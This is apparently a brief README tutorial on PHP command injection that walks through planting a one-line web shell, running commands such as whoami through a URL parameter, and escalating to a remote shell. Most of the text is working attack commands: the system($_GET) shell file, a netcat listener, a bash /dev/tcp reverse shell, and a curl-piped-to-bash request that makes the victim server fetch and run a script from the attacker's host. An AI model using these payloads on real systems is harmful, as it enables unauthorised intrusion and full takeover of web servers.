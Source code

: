# PHP injection code

Executing a command php from server side uploaded command.

There are a little tutorial showing how to create a simple injection and setting a RCE (**remote command execute**) from url connecting a netcat port from our side.


## Create the php file with that commands

    echo '<?php system($_GET["cmd"]); ?>' > shell.php

## Executing some commands from url to php file.

    http://{IP}:{PORT}/shell.php?cmd=whoami

After be sure to execute a whoami command and return somethig like this:

    uid=33(www-data) gid=33(www-data) groups=33(www-data)

Open a netcat port

    nc -lvnp 9091

### Create the **shell.php** with bash connection

```
bash -i >& /dev/tcp/<IP_ADDRESS>/9091 0>&1
```

Into your computer open port 8000 as web server

    python3 -m http.server 8000

then into the victim url set the injection code to getting our bash shell

    http://<IP>:PORT/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash

Once you press enter on the url would be trigger a shell in our netcat command as a Remote Shell

